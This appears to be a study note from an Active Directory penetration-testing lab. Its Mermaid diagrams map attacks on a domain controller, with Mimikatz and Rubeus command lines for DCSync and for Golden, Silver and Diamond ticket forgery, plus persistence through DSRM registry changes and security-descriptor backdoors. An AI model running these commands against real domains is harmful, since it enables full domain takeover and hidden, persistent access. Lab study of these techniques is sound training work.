


# dcorp-dc — Domain Controller: Tickets, DCSync & Persistence

## Attack Path

```mermaid
flowchart TD
    START(["🔑 Domain Admin\nor DCSync access"])

    subgraph dcsync["Path A: DCSync"]
        DS1["Invoke-Mimikatz\nlsadump::dcsync /user:dcorp\\krbtgt\nlsadump::dcsync /user:dcorp\\Administrator"]
        DS2["Extract:\nkrbtgt NTLM hash\nAll domain account hashes"]
        DS3["✅ Full domain compromise"]
    end

    subgraph golden["Path B: Golden Ticket"]
        G1["Ingredients:\nDomain SID: Get-DomainSID\nkrbtgt hash: from DCSync\nDomain name: dollarcorp.moneycorp.local"]
        G2["Forge Golden Ticket\nInvoke-Mimikatz\nkerberos::golden /user:Administrator\n/domain:dollarcorp.moneycorp.local\n/sid:S-1-5-21-...\n/krbtgt:HASH\n/id:500 /groups:512\n/startoffset:0 /endin:600\n/renewmax:10080 /ptt"]
        G3["✅ Persistent DA access\nValid for krbtgt password lifetime"]
        G4["Access any service\nPsExec, WMI, DCSync\nno re-auth needed"]
    end

    subgraph silver["Path C: Silver Ticket"]
        S1["Silver Ticket (HTTP)\nFor WinRM/PSRemoting\n/service:http\n/target:dcorp-dc.dollarcorp.moneycorp.local"]
        S2["Silver Ticket (HOST+RPCSS)\nFor WMI\n/service:host and /service:rpcss"]
        S3["Silver Ticket (CIFS)\nFor file access\n/service:cifs"]
        S4["Ingredients:\nTarget machine NTLM hash\nDomain SID\n/user: any username /id: any RID"]
    end

    subgraph diamond["Path D: Diamond Ticket"]
        DI1["Rubeus diamond\nModify existing valid TGT\nInstead of forging new one\nBypass Golden Ticket detections"]
        DI2["Rubeus.exe diamond\n/tgtdeleg /ticketuser:Administrator\n/ticketuserid:500 /groups:512"]
        DI3["✅ Diamond Ticket\nMore stealthy than Golden\nReal PAC from KDC"]
    end

    subgraph persistence["Phase 2: Persistence"]
        DSRM["DSRM (Directory Services Restore Mode)\nlsadump::lsa /patch → DSRM hash\nReg: HKLM\\System\\CurrentControlSet\\Control\\LSA\nDSRMAdminLogonBehavior = 2\nPass-the-Hash with DSRM hash\n→ Local admin on DC forever"]
        SD1["Security Descriptor Backdoor\nSet-RemoteWMI -UserName studentx\nSet-RemotePSRemoting -UserName studentx\nAdd-RemoteRegBackdoor -UserName studentx\n(using RACE.ps1)"]
        SD2["studentx can now\nWMI/PSRemote/RegQuery\nDC without DA privs"]
    end

    START --> DS1 --> DS2 --> DS3
    START --> G1 --> G2 --> G3 --> G4
    START --> S1 & S2 & S3
    S4 --> S1 & S2 & S3
    START --> DI1 --> DI2 --> DI3
    DS3 --> DSRM
    DS3 --> SD1 --> SD2

    style START fill:#4CAF50,color:#fff
    style DS3 fill:#f44336,color:#fff
    style G3 fill:#f44336,color:#fff
    style DI3 fill:#f44336,color:#fff
    style SD2 fill:#9C27B0,color:#fff
```

## Mindmap

```mermaid
mindmap
  root((dcorp-dc))
    DCSync
      lsadump::dcsync
        /user:krbtgt
        /user:Administrator
        /all /csv
      Replicates DC secrets
        All NTLM hashes
        Kerberos keys
    Golden Ticket
      Requirements
        krbtgt NTLM hash
        Domain SID
        Domain name
      Forge ticket
        Any user/group
        Custom validity
        /ptt inject
      Use cases
        Persistent DA
        Survive password changes
        Access all services
    Silver Ticket
      Forge service ticket
        No KDC contact
        Machine account hash
      Service types
        HTTP → WinRM
        HOST+RPCSS → WMI
        CIFS → File share
        LDAP → AD queries
    Diamond Ticket
      Rubeus diamond
        Real PAC from KDC
        Modify existing TGT
        More OPSEC friendly
    Persistence
      DSRM
        lsadump::lsa /patch
        Registry enable logon
        PTH → local admin DC
      Security Descriptors
        RACE.ps1
        Set-RemoteWMI
        Set-RemotePSRemoting
        Add-RemoteRegBackdoor
        Studentx → persistent access
```
